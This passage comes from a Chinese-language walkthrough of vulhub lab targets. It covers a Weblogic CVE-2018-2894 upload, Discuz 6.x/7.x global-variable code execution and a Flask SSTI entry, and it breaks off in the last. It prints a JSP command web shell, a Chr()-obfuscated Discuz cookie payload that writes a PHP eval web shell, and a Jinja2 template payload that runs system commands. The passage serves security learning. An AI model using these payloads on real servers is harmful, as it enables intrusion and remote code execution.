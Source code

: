 ```javascript
<pre class="" style="box-sizing: border-box; overflow: auto; font-family: var(--monospace); margin-bottom: 0px; width: inherit; white-space: pre-wrap;"><%
if (request.getParameter("cmd") != null) {
        out.println("Command: " + request.getParameter("cmd") + "\n");
        Process p = Runtime.getRuntime().exec(request.getParameter("cmd"));
        OutputStream os = p.getOutputStream();
        InputStream in = p.getInputStream();
        DataInputStream dis = new DataInputStream(in);
        String disr = dis.readLine();
        while ( disr != null ) {
                out.println(disr); disr = dis.readLine(); }
        }
%>
</pre>
</BODY></HTML> 
```
审查元素,查看时间戳（也可使用抓包方式进行查看）
![](https://img-blog.csdnimg.cn/20210203213510568.png)
最后访问`/ws_utc/css/config/keystore/[时间戳]_[文件名]`即可得到flag
![](https://img-blog.csdnimg.cn/20210203214249883.png)

参考：[Weblogic 任意文件上传漏洞（CVE-2018-2894）](https://github.com/vulhub/vulhub/tree/master/weblogic/CVE-2018-2894)
### [Discuz]wooyun-2010-080723
漏洞版本：Discuz 6.x/7.x

由于php5.3.x版本里php.ini的设置里`request_order`默认值为GP，导致`$_REQUEST`中不再包含`$_COOKIE`，我们通过在Cookie中传入`$GLOBALS`来覆盖全局变量，造成代码执行漏洞

首先安装，访问`http://your-ip:8080/install/`来安装discuz，数据库地址填写db，数据库名为discuz，数据库账号密码均为root
安装成功后，直接找一个已存在的帖子，向其发送数据包，并在Cookie中增加`GLOBALS[_DCACHE][smilies][searcharray]=/.*/eui; GLOBALS[_DCACHE][smilies][replacearray]=phpinfo();`
![](https://img-blog.csdnimg.cn/20210124135112353.png)
成功获取phpinfo()，那么即可写入一句话
```php
GLOBALS[_DCACHE][smilies][searcharray]=/.*/eui; GLOBALS[_DCACHE][smilies][replacearray]=eval(Chr(102).Chr(112).Chr(117).Chr(116).Chr(115).Chr(40).Chr(102).Chr(111).Chr(112).Chr(101).Chr(110).Chr(40).Chr(39).Chr(115).Chr(104).Chr(101).Chr(108).Chr(108).Chr(46).Chr(112).Chr(104).Chr(112).Chr(39).Chr(44).Chr(39).Chr(119).Chr(39).Chr(41).Chr(44).Chr(39).Chr(60).Chr(63).Chr(112).Chr(104).Chr(112).Chr(32).Chr(64).Chr(101).Chr(118).Chr(97).Chr(108).Chr(40).Chr(36).Chr(95).Chr(80).Chr(79).Chr(83).Chr(84).Chr(91).Chr(48).Chr(93).Chr(41).Chr(63).Chr(62).Chr(39).Chr(41).Chr(59))
```
![](https://img-blog.csdnimg.cn/20210124141132223.png)
接下来连接蚁剑，获取webshell
![](https://img-blog.csdnimg.cn/20210202211237452.png)
参考：
[Discuz! 6.x/7.x 全局变量防御绕过导致命令执行](https://www.secpulse.com/archives/2338.html)
[Discuz 7.x/6.x 全局变量防御绕过导致代码执行](https://github.com/vulhub/vulhub/tree/master/discuz/wooyun-2010-080723)
### [Flask]SSTI
最近在看python安全攻防，然后学了一下pocsuite，正好拿这个靶机做一下实验。[如何打造自己的PoC框架-Pocsuite3-使用篇](https://paper.seebug.org/904/)
获取eval函数并执行任意python代码的POC：
```python
{% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__ == 'catch_warnings' %}
  {% for b in c.__init__.__globals__.values() %}
  {% if b.__class__ == {}.__class__ %}
    {% if 'eval' in b.keys() %}
      {{ b['eval']('__import__("os").popen("id").read()') }}
```